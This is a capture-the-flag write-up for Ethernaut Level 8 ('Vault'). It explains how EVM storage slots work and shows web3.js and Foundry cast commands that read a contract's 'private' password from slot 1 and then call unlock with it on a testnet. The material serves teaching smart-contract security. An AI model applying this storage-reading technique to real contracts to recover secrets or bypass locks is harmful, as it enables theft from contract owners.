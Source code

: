 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/8-vault.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 8 - Vault</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 8 - Vault](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-08-vault)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
  - [Storage (Static types)](#storage-static-types)
  - [Reading the storage](#reading-the-storage)
- [Solution](#solution)
  - [In the browser console:](#in-the-browser-console)
  - [With Foundry using `cast`:](#with-foundry-using-cast)
- [Takeaway](#takeaway)
- [References](#references)

## Goals

<img src="../assets/requirements/8-vault-requirements.webp" width="800px"/>

## The hack

It requires an understanding of how storage works in solidity (usage of 32-byte sized slots) and the JSON RPC function `eth_getStorageAt`.

### Storage (Static types)

EVM stores data in 32-byte slots. The first state variable is stored at slot 0. If there are enough bytes left, the next variable is also stored at slot 0, otherwise at slot 1, and so on.

> NOTE: Dynamic types like arrays and strings are different and don't work the same way. But this is for another level...

In the Vault contract, `locked` is a boolean and uses 1 bytes. The slot 0 has 31 bytes of unused storage. `password` is a bytes32 and uses 32 bytes. Since it doesn't fit in the 31 bytes left in slot 0, it is stored at slot 1.

### Reading the storage

The `eth_getStorageAt` JSON RPC function can be used to read the contract's storage at a given slot.

For instance, to read the contract's storage at slot 1 using web3.js, you can use the following function:

```javascript
web3.eth.getStorageAt(contractAddress, 1, (err, result) => {
  console.log(result);
});
```

In Foundry, you can make use of `cast` to achieve the same result:

```bash
cast storage <contractAddress> 1 --rpc-url sepolia
```

## Solution

Since we know that the password is stored at slot 1, we can read the storage at that slot to find the password and then call the `unlock` function with the password to complete the level.

### In the browser console:

```javascript
// 1. Read the storage of the contract at slot[1] to find the password:
await web3.eth.getStorageAt(instance, 1);

// 2. Call the unlock function with the password to complete the level:
await contract.unlock("[result from step 2]");
```

### With Foundry using `cast`:

```bash
cast storage <contractAddress> 1 --rpc-url sepolia
```

Then pass the result to the `unlock` function:

```bash
cast send 0x5E0bc315bDe04a2E24E00335976dC823E6214213 "unlock(bytes32)" "0x412076657279207374726f6e67207365637265742070617373776f7264203a29" --private-key $PRIVATE_KEY --rpc-url sepolia
```

## Takeaway

- The `private` keyword means that the data can only be accessed by the contract itself, not that it is hidden from the world.
- Nothing is private on the blockchain. Everything is public and can be read by anyone.

## References

eth_getStorageAt: https://ethereum.org/en/developers/docs/apis/json-rpc/#eth_getstorageat

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
